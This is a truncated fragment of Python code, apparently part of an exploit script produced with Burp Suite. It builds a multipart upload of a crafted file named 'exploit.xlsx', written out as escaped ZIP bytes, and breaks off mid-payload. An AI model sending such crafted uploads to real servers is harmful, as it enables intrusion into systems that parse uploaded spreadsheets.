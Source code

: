 ```python
	burp0_data = "------WebKitFormBoundaryX8EzGd8nAoSVFtBe\r\nContent-Disposition: form-data; name=\"file\"; filename=\"exploit.xlsx\"\r\nContent-Type: application/vnd.openxmlformats-officedocument.spreadsheetml.sheet\r\n\r\nPK\x03\x04\x14\x00\x00\x00\x08\x00\x00\x00!\x00b\xee\x9dhO\x01\x00\x00\x90\x04\x00\x00\x13\x00\x1c\x00[Content_Types].xmlUT\t\x00\x030\xd0\xce\x12\x1e\xbeiaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00\xad\x94Mn\xc20\x10\x85\xf7\x95z\x87\xc8[\x94\x18\xba\xa8\xaa\x8a\xc0\xa2?\xcb\x16\xa9\xf4\x00n<!\x16\x8emy\x06\n\xb7\xef\xc4PTU\x94\xa8\x82M\xacx\xe6\xbd\xef\xd9\xd1d<\xdd\xb46[CD\xe3])F\xc5Pd\xe0*\xaf\x8d[\x94\xe2}\xfe\x9c\xdf\x89\x0cI9\xad\xacwP\x8a-\xa0\x98N\xae\xaf\xc6\xf3m\x00\xccX\xed\xb0\x14\rQ\xb8\x97\x12\xab\x06Z\x85\x85\x0f\xe0\xb8R\xfb\xd8*\xe2\xd7\xb8\x90AUK\xb5\x00y3\x1c\xde\xca\xca;\x02G9u\x1eb2~\x84Z\xad,eO\x1b\xde\xde%\x89`Qd\x0f\xbb\xc6\x8eU\n\x15\x825\x95\"\xae\xcb\xb5\xd3\xbf(\xf9\x9eP\xb02\xf5`c\x02\x0e\xb8A\xc8\xa3\x84\xae\xf27`\xaf{\xe5\xab\x89FC6S\x91^T\xcb]rc\xe5\xa7\x8f\xcb\x0f\xef\x97\xc5i\x93#)}]\x9b\n\xb4\xafV-K\n\x0c\x11\x94\xc6\x06\x80Z[\xa4\xb5h\x95q\x83~~jF\x99\x96\xd1\x85\x83\x1c\xfc{r\x10o\xd8=\xcf\x8f\x90lz\x80H[\x0bx\xe9kO\xa6}\xe4FE\xd0o\x14y2.\x1e\xe0\xa7\xf7\xa9\x1c\xac\x9fE\x1f\x90'(\xc2\xffC|\x8fH\xa7\xce\x03\x1bA$s\xfa\xe4\x07\"[\x9f}j\xe8\xa6O\x83>\xc2\x96\xe92\xf9\x02PK\x03\x04\n\x00\x00\x00\x00\x00[nOS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x06\x00\x1c\x00_rels/UT\t\x00\x03m\xb1ia[\xbeiaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x03\x04\x14\x00\x00\x00\x08\x00\x00\x00!\x00\xb5U0#\xeb\x00\x00\x00L\x02\x00\x00\x0b\x00\x1c\x00_rels/.relsUT\t\x00\x030\xd0\xce\x12n\xb1iaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00\xad\x92\xcdj\xc30\x0c\x80\xef\x83\xbd\x83\xd1\xbdQ\xda\xc1\x18\xa3N/c\xd0\xdb\x18\xd9\x03h\xb6\xf2C\x12\xcb\xd8n\x97\xbe\xfd\xbc\xc3\xd8\x02]\xe9aG\xcb\xd2\xa7OB\xdb\xdd<\x8d\xea\xc8!\xf6\xe24\xac\x8b\x12\x14;#\xb6w\xad\x86\xb7\xfay\xf5\x00*&r\x96Fq\xac\xe1\xc4\x11v\xd5\xed\xcd\xf6\x95GJ\xb9(v\xbd\x8f*S\\\xd4\xd0\xa5\xe4\x1f\x11\xa3\xe9x\xa2X\x88g\x97\x1a\t\x13\xa5\xfc\x0c-z2\x03\xb5\x8c\x9b\xb2\xbc\xc7\xf0\x9b\x01\xd5\x82\xa9\xf6VC\xd8\xdb;P\xf5\xc9\xf35li\x9a\xde\xf0\x93\x98\xc3\xc4.\x9di\x81<'v\x96\xed\xca\x87\\\x1fR\x9f\xa7Q5\x85\x96\x93\x06+\xe6%\x87#\x92\xf7EF\x03\x9e7\xda\\o\xf4\xf7\xb48q\"K\x89\xd0H\xe0\xcb>_\x19\x97\x84\xd6\xff\xb9\xa2e\xc6\x8f\xcd<\xe2\x87\x84\xe1]d\xf8v\xc1\xc5\rT\x9fPK\x03\x04\n\x00\x00\x00\x00\x00[nOS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\t\x00\x1c\x00docProps/UT\t\x00\x03m\xb1ia[\xbeiaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x03\x04\x14\x00\x00\x00\x08\x00\x00\x00!\x003-\xc0tv\x01\x00\x00\x13\x03\x00\x00\x10\x00\x1c\x00docProps/app.xmlUT\t\x00\x030\xd0\xce\x12\x86\xb1iaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00\x9dR\xc1N\xeb0\x10\xbc#\xf1\x0f\x91\xef\xd4\t<!T9F\xa8\x808<\xf4*\xb5\xe5\xbe8\x9b\xc6\xc2\xb1-{\x89Z\xbe\xfe9\xa9\x1aR\xe0\xc4mvv4\x99\xccZ\xdc\xeeZ\x93u\x18\xa2v\xb6d\xc5,g\x19Z\xe5*m\xb7%\xdb\xac\x1f/nX\x16\tl\x05\xc6Y,\xd9\x1e#\xbb\x95\xe7gb\x19\x9c\xc7@\x1ac\x96,l,YC\xe4\xe7\x9cG\xd5`\x0bq\x96\xd66mj\x17Z\xa04\x86-wu\xad\x15\xde;\xf5\xde\xa2%~\x99\xe7\xd7\x1cw\x84\xb6\xc2\xea\xc2\x8f\x86\xec\xe08\xef\xe8\xb7\xa6\x95S}\xbe\xf8\xb2\xde\xfb\xe4'\xc5\x9d\xf7F+\xa0\xf4\x97\xf2Y\xab\xe0\xa2\xab){\xd8)4\x82O\x97\"\x19\xadP\xbd\x07M{\x99\x0b>\x1d\xc5J\x81\xc1E2\x965\x98\x88\x82\x12\xe2\t\xa1/m\t:D):\x9aw\xa8\xc8\x85,\xea\x8fT\xdb%\xcb^!b\x1f\xa7d\x1d\x04\r\x96\xd8Av\x18\x06l|\xa4 \x97\x06\xac6\rD\xc1Gn\x80S\xe9\x14\xeb?\xb2\x18\x04\t\x9c\n\xf9\x98#\xe1\xd3\x84kM\x06\xe3\xbfz\t\x81~\x08\\L\x03\x0f\x19\xd8\x0f\x11\x8bo\x11\x8f\x1f\xfbb\xbfp\xad\x07\x9b*\xe4#\xfa\xab\xed[\xdc\xf8\xb5\xbb\x07\xc2c\xa1\xa7\xa4X5\x10\xb0J7\x18\x0b\x1f\t\xf1\x94\xa2\x05\xd3\xeb\x17\r\xd8-VG\xcd\xf7E\xfe\x97\xc3\x1b\x97\xc5\xf5,\xbf\xca\xf3\xe1\xeaGN\xf0\xcf\xd7,\xff\x03PK\x03\x04\x14\x00\x00\x00\x08\x00\x00\x00!\x00/\x99t\xe87\x01\x00\x00q\x02\x00\x00\x11\x00\x1c\x00docProps/core.xmlUT\t\x00\x030\xd0\xce\x12\x86\xb1iaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00\x8d\x92]k\xc20\x14\x86\xef\x07\xfb\x0f%\xf7m\x9a\x8a\"\xa1\xad\xb0\r\xaf&\x0c\xe6\xd8\xd8]H\x8e\x1a\xd6|\x90D\xab\xff~i\xd5\xaa\xcc\x8b]\x86\xf7\xc9\x93\xf3\x1eR\xce\xf6\xaaIv\xe0\xbc4\xbaB$\xcbQ\x02\x9a\x1b!\xf5\xbaB\x1f\xcby:E\x89\x0fL\x0b\xd6\x18\r\x15:\x80G\xb3\xfa\xf1\xa1\xe4\x96r\xe3\xe0\xcd\x19\x0b.H\xf0I4iO\xb9\xad\xd0&\x04K1\xf6|\x03\x8a\xf9,\x12:\x86+\xe3\x14\x0b\xf1\xe8\xd6\xd82\xfe\xc3\xd6\x80\x8b<\x9f`\x05\x81\t\x16\x18\xee\x84\xa9\x1d\x8c\xe8\xa4\x14|P\xda\xadkz\x81\xe0\x18\x1aP\xa0\x83\xc7$#\xf8\xc2\x06p\xca\xdf\xbd\xd0'W\xa4\x92\xe1`\xe1.z\x0e\x07z\xef\xe5\x00\xb6m\x9b\xb5\xa3\x1e\x8d\xf3\x13\xfc\xb5x}\xef\xab\xa6Rw\xbb\xe2\x80\xeaRp\xca\x1d\xb0`\\\xbd\x93Zr\xb9\xf5Y\xec\x05\xd2\xb1\x12_\x85\xdd\"\x1b\xe6\xc3\"\xee|%A<\x1d\xee\xf0\x99\xf2T\xf4\xe8\x01\x91\xc4\x01\xe9\xb1\xce9\xf9\x1c=\xbf,\xe7\xa8.\xf2\x82\xa4$O\xc9xI&\xb4\x98\xd2q\xf1\xdd\x8dps\xff\"T\xa7G\xfem\x1c\xe7tD\xae\x8cgA\xdd\xcf}\xfbI\xea_PK\x03\x04\n\x00\x00\x00\x00\x00[nOS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x1c\x00xl/UT\t\x00\x03m\xb1ia[\xbeiaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x03\x04\x14\x00\x00\x00\x08\x00\x00\x00!\x00\x126\"\xcc\x95\x00\x00\x00\xb2\x00\x00\x00\x14\x00\x1c\x00xl/sharedStrings.xmlUT\t\x00\x030\xd0\xce\x12\x8e\xb1iaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x005\xcdA\n\xc20\x10\x85\xe1\xbd\xe0\x1d\xc2\xec\\\xd8\xa9.DJ\x92.\x04O\xa0\x07\x08\xed\xd8\x06\x9aI\xedLEoo\\\xb8\xfcx<~\xdb\xbe\xd3d^\xb4H\xcc\xec\xe0P\xd5`\x88\xbb\xdcG\x1e\x1c\xdco\xd7\xfd\x19\x8ch\xe0>L\x99\xc9\xc1\x87\x04Z\xbf\xddX\x115\xe5\xcb\xe2`T\x9d\x1bD\xe9FJA\xaa<\x13\x97\xe5\x91\x97\x14\xb4p\x19P\xe6\x85B/#\x91\xa6\t\x8fu}\xc2\x14\"\x83\xe9\xf2\xcaZ\xba`V\x8e\xcf\x95.{+\xd1[\xf5\xcd\xce\xa2z\x8b?ai\xfa/PK\x03\x04\x14\x00\x00\x00\x08\x00\x00\x00!\x00y\xa1\x80l\x8d\x02\x00\x00R\x06\x00\x
```